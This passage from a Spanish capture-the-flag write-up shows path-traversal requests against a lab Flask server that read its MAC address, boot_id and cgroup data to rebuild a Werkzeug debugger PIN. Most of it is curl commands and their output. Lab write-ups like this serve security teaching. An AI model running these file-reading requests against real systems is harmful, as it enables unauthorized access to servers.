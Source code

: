 ```bash wrap=false
❯ curl --path-as-is http://10.10.11.164/uploads/..//a | tail
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 15739  100 15739    0     0   115k      0 --:--:-- --:--:-- --:--:--  115k
  File "/app/app/views.py", line 33, in send_report
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
  File "/usr/local/lib/python3.10/site-packages/flask/helpers.py", line 610, in send_file
    return werkzeug.utils.send_file(
  File "/usr/local/lib/python3.10/site-packages/werkzeug/utils.py", line 440, in send_file
    stat = os.stat(path)
FileNotFoundError: [Errno 2] No such file or directory: '/a'

-->
```

La parte pública del script ya la tendríamos, en la parte privada necesitaremos la **MAC** en `decimal`:

```bash wrap=false
❯ curl --path-as-is http://10.10.11.164/uploads/..//sys/class/net/eth0/address
02:42:ac:11:00:09
❯ python3
Python 3.13.7 (main, Aug 20 2025, 22:17:40) [GCC 14.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x0242ac110009
2485377892361
```

Y para el `ID` usaremos curl a la siguiente ruta con el parámetro `--ignore-content-length`:

```bash wrap=false
❯ curl --path-as-is http://10.10.11.164/uploads/..//proc/sys/kernel/random/boot_id
❯ curl --path-as-is http://10.10.11.164/uploads/..//proc/sys/kernel/random/boot_id --ignore-content-length
a3fce266-ca85-4988-aa7c-e2abbd0381b3
```

A esto le deberemos concatenar lo siguiente:

```bash wrap=false
❯ curl --path-as-is http://10.10.11.164/uploads/..//proc/self/cgroup --ignore-content-length
12:cpuset:/docker/467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b
11:memory:/docker/467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b
10:hugetlb:/docker/467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b
9:devices:/docker/467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b
8:cpu,cpuacct:/docker/467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b
7:rdma:/
6:pids:/docker/467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b
5:net_cls,net_prio:/docker/467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b
4:freezer:/docker/467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b
3:blkio:/docker/467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b
2:perf_event:/docker/467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b
1:name=systemd:/docker/467e52b1b86b9f34118789d78acb27cee070b9feb0276851a3120d6a1d4c835b
0::/system.slice/snap.docker.dockerd.service
```
